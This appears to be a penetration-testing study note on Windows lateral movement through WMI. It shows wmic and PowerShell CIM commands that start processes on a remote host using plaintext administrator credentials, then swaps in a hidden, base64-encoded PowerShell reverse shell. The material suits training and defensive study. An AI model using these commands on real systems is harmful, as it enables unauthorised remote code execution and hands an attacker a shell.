 public:: true

- [Windows Management Instrumentation](https://learn.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page) is an object-oriented feature that facilitates task automation.
- #+BEGIN_PINNED
  It uses **port 135** for remote access and uses a higher-range port *(19152-65535)* for session data.
  #+END_PINNED
- The `wmci` utility has been [deprecated around 21H1](https://learn.microsoft.com/en-us/windows/whats-new/deprecated-features), but let see how it can be used to spawn a process to a remote target for which we know administrator credentials
	- ```cmd
	  wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc"
	  ```
	- #+BEGIN_IMPORTANT
	  System processes and services always run in [**session 0**](https://techcommunity.microsoft.com/t5/ask-the-performance-team/application-compatibility-session-0-isolation/ba-p/372361) as part of session isolation, which was introduced in Windows Vista. Because the *WMI Provider Host* is running as a **system service**, newly created processes through WMI are also spawned in **session 0**.
	  #+END_IMPORTANT
- Powershell is used nowadays as replacement for `wmci`, let's see how to use it to achieve the same ran as before.
	- First, we need to create a [PSCredential](https://learn.microsoft.com/en-us/powershell/scripting/learn/deep-dives/add-credentials-to-powershell-functions?view=powershell-7.2) object to store the domain user credentials that we use to access the remote target.
	  logseq.order-list-type:: number
		- ```powershell
		  $username = 'jen';
		  $password = 'Nexus123!';
		  $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
		  $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
		  ```
	- Next, we create a [*Common Information Model*](https://learn.microsoft.com/en-us/powershell/module/cimcmdlets/new-cimsession?view=powershell-7.2) (CIM) object and specify the target IP, creds to use and which process to start.
	  logseq.order-list-type:: number
		- ```powershell
		  $options = New-CimSessionOption -Protocol DCOM
		  $session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $options 
		  $command = 'calc';
		  ```
	- Finally, we execute the process on the remote target.
	  logseq.order-list-type:: number
		- ```powershell
		  Invoke-CimMethod -CimSession $session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$command};
		  ```
	- A more useful command to execute remotely could be a reverse shell. From the previous example we can simply swap the `$command` variable with something similar to a base64 powershell encoded [reverse shell]([[Windows Reverse Shells]]).
	  id:: 65a01d55-0fd2-4bbd-9251-edd80b50bbb9
		- ```powershell
		  $command = 'powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA';
		  ```